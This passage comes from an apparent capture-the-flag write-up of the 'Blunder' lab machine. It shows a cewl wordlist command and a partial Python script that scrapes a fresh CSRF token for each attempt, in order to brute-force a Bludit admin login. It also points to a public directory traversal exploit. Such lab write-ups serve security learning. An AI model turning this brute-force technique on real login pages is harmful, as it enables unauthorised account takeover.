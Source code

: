 ![login](./.images/login.png)

We can find a login page at `/admin`. Where we can try some basic SQLi attack along with default login credentials but none of them work. We can even try some common passwords with the username `fergus` but even they won't work. We can also check it's source-code in order to check for some information disclosure. 

![admin_src](./.images/admin_src.png)

Here, we don't find any useful hint but can see that this login page uses [CSRF Token](https://portswigger.net/web-security/csrf/tokens) which are used as method to avoid login bruteforce attacks. With every new request a new token is generated and this needs to be submitted along with login credentials while performing a login. So, if we plan to bruteforce the credentials we need to figure out a method that along with the changing credentials we are sending the correct CRSF token with every login attempt else we won't be able to find the correct login credentials.

### Initial Foothold

From the login page, we get one hint and that is the term `BLUDIT`. We can try to look for it on google to see if it some known service and even try to look for some associated vulnerability.

The first result from google that we get is [`Bludit Directory Traversal `](https://www.exploit-db.com/exploits/48701) exploit on ExploitDB. We can download the code, make necessary changes and try to it. But before that we can see that to execute the script properly we need a username and password along with the target URL.

![dirtrav_issue](./.images/dirtrav_issue.png)

We do have one suspected username `fergus` but no associated password. Even in the articles we don't find any suspected password and there are no other hidden pages as well. We can try to get a list of words from the webpage using `cewl` and then try to use those words as password for logging in. We can run `cewl` as:

```
┌─[tester@parrot-virtual]─[~/Downloads/blunder]
└──╼ $cewl http://10.10.10.191:80 -w words
```

This will create a list of words obtained from the webpage. With this the output is written in the file `words`. Now, we can use this list along with the username `fergus` to bruteforce the login. But the issue is CSRF token. And to avoid that we need to make a python script which will read the token and pass is in the subsequent request along with the updated password value.

```
import requests
import re

url='http://10.10.10.191'
path = '/admin/login'
username = 'fergus'

wordlist = open('words', 'r')
words = wordlist.readlines()

for password in words:
	session = requests.session()
	login_page = session.get(url+path)
	csrf_token = re.search('name="tokenCSRF" value="(.*)"', login_page.text).group(1)
	print ("Trying Password: ", password)
	print ("CSRF Token:", csrf_token) 

	data = {
		'tokenCSRF': csrf_token,
		'username': username,
		'password': password.strip(),
		'save':''
	}
```